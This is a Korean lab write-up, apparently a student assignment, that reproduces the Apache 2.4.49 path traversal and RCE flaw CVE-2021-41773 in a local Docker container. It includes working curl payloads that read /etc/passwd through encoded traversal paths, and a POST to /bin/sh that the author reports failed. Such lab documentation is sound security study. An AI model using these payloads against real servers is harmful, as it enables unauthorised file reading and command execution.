 # CVE-2021-41773 | Apache HTTPD Path Traversal & RCE

## 요약
Apache HTTP Server 2.4.49 버전에서 발생하는 Path Traversal 및 원격 코드 실행(RCE) 취약점을 테스트하였다.

- 경로 우회(Path Traversal)를 통해 서버 내 민감 파일 접근 가능
- `/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd`와 같은 요청으로 파일 읽기 가능
- RCE 공격도 이론적으로 가능하지만, 실습 환경에서는 설정 제한으로 실패
- Docker 환경을 구축하여 취약점을 검증하였다

## 환경 구성 및 실행

- Docker 기반으로 Apache 2.4.49 환경 구성
- docker-compose.yaml, Dockerfile을 사용하여 이미지 빌드 및 컨테이너 실행
- 포트 8888로 Apache HTTP Server 접근

```bash
docker-compose up -d


(→  It Works! 브라우저 화면 캡처 추가ㄱㄱ)

---

## 4. 취약점 검증

```markdown
## 취약점 검증

1. Path Traversal을 이용하여 민감 파일 접근 시도

```bash
curl -v --path-as-is "http://localhost:8888/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"

curl -v --path-as-is "http://localhost:8888/cgi-bin/.%2e/.%2e/.%2e/.%2e/test.txt"



(→ curl 요청 결과 캡처 추가 ㄱㄱ)

---

## 5. 추가 실습 기록 (RCE 시도)

```markdown
## 추가 실습 기록

- `/bin/sh`를 통한 RCE 시도를 curl POST 방식으로 진행
- 내부 파일 생성 명령어 전달(`echo`)을 시도하였으나 서버 설정 상 500 오류 발생
- Path Traversal은 성공했으나, RCE는 서버 설정으로 인해 실패
- 실패 과정을 기록하여 취약점 한계를 명확히 확인

```bash
curl -v --path-as-is -d "echo RCE_Success" "http://localhost:8888/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"


---

## 6. GitHub 레포 및 커밋 이력

```markdown
## GitHub 레포 및 커밋 이력

- 과제 진행을 위해 [Fork 레포](https://github.com/본인계정/vulhub) 생성 후 실습 기록
- 커밋 이력에 실습 환경 구축, 공격 흐름 작성, RCE 시도 및 실패 기록 등이 포함

(→ GitHub 커밋 이력 캡처 추가 ㄱㄱ)


